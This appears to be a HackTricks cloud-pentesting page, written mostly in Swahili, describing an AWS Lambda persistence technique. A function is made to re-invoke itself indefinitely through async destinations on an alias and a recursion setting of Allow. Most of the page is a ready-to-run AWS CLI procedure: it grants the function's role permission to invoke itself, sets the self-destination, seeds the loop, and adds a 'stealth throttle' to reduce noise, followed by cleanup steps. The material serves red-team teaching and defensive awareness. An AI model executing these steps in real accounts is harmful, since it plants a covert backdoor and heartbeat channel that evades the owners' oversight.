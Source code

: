 # AWS - Lambda Async Self-Loop Persistence via Destinations + Recursion Allow

{{#include ../../../../banners/hacktricks-training.md}}

Tumia Lambda asynchronous destinations pamoja na Recursion configuration kufanya function iite tena yenyewe kwa mfululizo bila scheduler wa nje (hakuna EventBridge, cron, n.k.). Kwa default, Lambda inasimamisha recursive loops, lakini kuweka recursion config kuwa Allow kunaweza kuziruhusu tena. Destinations hutekelezwa upande wa service kwa async invokes, hivyo seed invoke moja huunda channel ya kimya, isiyo na code — heartbeat/backdoor channel. Hiari: throttle kwa reserved concurrency ili kupunguza kelele.

Vidokezo
- Lambda hairuhusu kusanidi function kuwa destination yake moja kwa moja. Tumia function alias kama destination na uruhusu execution role ku-invoke alias hiyo.
- Minimum permissions: ability to read/update the target function’s event invoke config and recursion config, publish a version and manage an alias, and update the function’s execution role policy to allow lambda:InvokeFunction on the alias.

## Mahitaji
- Region: us-east-1
- Vars:
- REGION=us-east-1
- TARGET_FN=<target-lambda-name>

## Hatua

1) Pata function ARN na usanidi wa recursion wa sasa
```
FN_ARN=$(aws lambda get-function --function-name "$TARGET_FN" --region $REGION --query Configuration.FunctionArn --output text)
aws lambda get-function-recursion-config --function-name "$TARGET_FN" --region $REGION || true
```
2) Chapisha toleo na unda/sasisha alias (inayotumika kama lengo la kujipeleka)
```
VER=$(aws lambda publish-version --function-name "$TARGET_FN" --region $REGION --query Version --output text)
if ! aws lambda get-alias --function-name "$TARGET_FN" --name loop --region $REGION >/dev/null 2>&1; then
aws lambda create-alias --function-name "$TARGET_FN" --name loop --function-version "$VER" --region $REGION
else
aws lambda update-alias --function-name "$TARGET_FN" --name loop --function-version "$VER" --region $REGION
fi
ALIAS_ARN=$(aws lambda get-alias --function-name "$TARGET_FN" --name loop --region $REGION --query AliasArn --output text)
```
3) Ruhusu cheo cha utekelezaji cha function kuitisha alias (inahitajika na Lambda Destinations→Lambda)
```
# Set this to the execution role name used by the target function
ROLE_NAME=<lambda-execution-role-name>
cat > /tmp/invoke-self-policy.json <<EOF
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "lambda:InvokeFunction",
"Resource": "${ALIAS_ARN}"
}
]
}
EOF
aws iam put-role-policy --role-name "$ROLE_NAME" --policy-name allow-invoke-self --policy-document file:///tmp/invoke-self-policy.json --region $REGION
```
4) Sanidi async destination kwa alias (self via alias) na zima retries
```
aws lambda put-function-event-invoke-config \
--function-name "$TARGET_FN" \
--destination-config OnSuccess={Destination=$ALIAS_ARN} \
--maximum-retry-attempts 0 \
--region $REGION

# Verify
aws lambda get-function-event-invoke-config --function-name "$TARGET_FN" --region $REGION --query DestinationConfig
```
5) Ruhusu mizunguko ya kujirudia
```
aws lambda put-function-recursion-config --function-name "$TARGET_FN" --recursive-loop Allow --region $REGION
aws lambda get-function-recursion-config --function-name "$TARGET_FN" --region $REGION
```
6) Kuanzisha invoke moja isiyo ya sinkroni
```
aws lambda invoke --function-name "$TARGET_FN" --invocation-type Event /tmp/seed.json --region $REGION >/dev/null
```
7) Chunguza miito endelevu (mifano)
```
# Recent logs (if the function logs each run)
aws logs filter-log-events --log-group-name "/aws/lambda/$TARGET_FN" --limit 20 --region $REGION --query events[].timestamp --output text
# or check CloudWatch Metrics for Invocations increasing
```
8) Hiari stealth throttle
```
aws lambda put-function-concurrency --function-name "$TARGET_FN" --reserved-concurrent-executions 1 --region $REGION
```
## Usafishaji
Vunja mzunguko na ondoa persistence.
```
aws lambda put-function-recursion-config --function-name "$TARGET_FN" --recursive-loop Terminate --region $REGION
aws lambda delete-function-event-invoke-config --function-name "$TARGET_FN" --region $REGION || true
aws lambda delete-function-concurrency --function-name "$TARGET_FN" --region $REGION || true
# Optional: delete alias and remove the inline policy when finished
aws lambda delete-alias --function-name "$TARGET_FN" --name loop --region $REGION || true
ROLE_NAME=<lambda-execution-role-name>
aws iam delete-role-policy --role-name "$ROLE_NAME" --policy-name allow-invoke-self --region $REGION || true
```
## Athari
- Single async invoke inasababisha Lambda kuji-invoke tena mara kwa mara bila scheduler wa nje, ikiruhusu stealthy persistence/heartbeat. Reserved concurrency inaweza kupunguza noise hadi single warm execution.
{{#include ../../../../banners/hacktricks-training.md}}
